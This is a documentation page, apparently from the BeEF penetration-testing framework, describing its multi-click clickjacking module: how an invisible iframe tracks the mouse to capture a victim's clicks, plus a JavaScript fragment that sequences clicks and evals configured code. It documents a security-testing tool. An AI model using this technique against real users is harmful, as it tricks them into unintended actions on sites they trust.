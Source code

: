 ## Summary

* **Objective**: perform basic multi-click clickjacking
* **Authors**: Brigette Lundeen, Rich Lundeen
* **Browsers**: Firefox, Chrome, IE

* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/clickjacking)

## Internal Working

The iframe follows the mouse, so anywhere the user clicks on the page will be over x-pos,y-pos. The optional JS configuration values specify local Javascript to exectute when a user clicks, allowing the page can give visual feedback. The attack stops when y-pos is set to a non-numeric values (e.g. a dash). 

For a demo, visit `<beef root>/demos/clickjacking/clickjack_attack.html` with the default settings (based on browser they may have to be adjusted).


```js

        function iframeClicked(){
                clicked++;
                var jsfunc = '';
                jsfunc = clicks[clicked-1].js;
                innerPos.top = clicks[clicked].posTop;
                innerPos.left = clicks[clicked].posLeft;
                eval(unescape(jsfunc));
                setTimeout(function(){
                        updateIframePosition();
                }, <%= @clickDelay %>);

                setTimeout(function(){
                        var btnSelector = "#" + elems.btn;
                        var btnObj = $j(btnSelector);
                        $j(btnObj).focus();

                        //check if there are any more actions to perform
                        try {
                                if (isNaN(parseInt(clicks[clicked].posTop))) {
                                        removeAll(elems);
                                        throw "No more clicks.";
                                }
                        } catch(e) {
                                cjLog(e);
                        }
                }, 200);
        }
```

## References

https://en.wikipedia.org/wiki/Clickjacking

## Screenshots

[[Images/module-clickjacking1.png|align=center]]






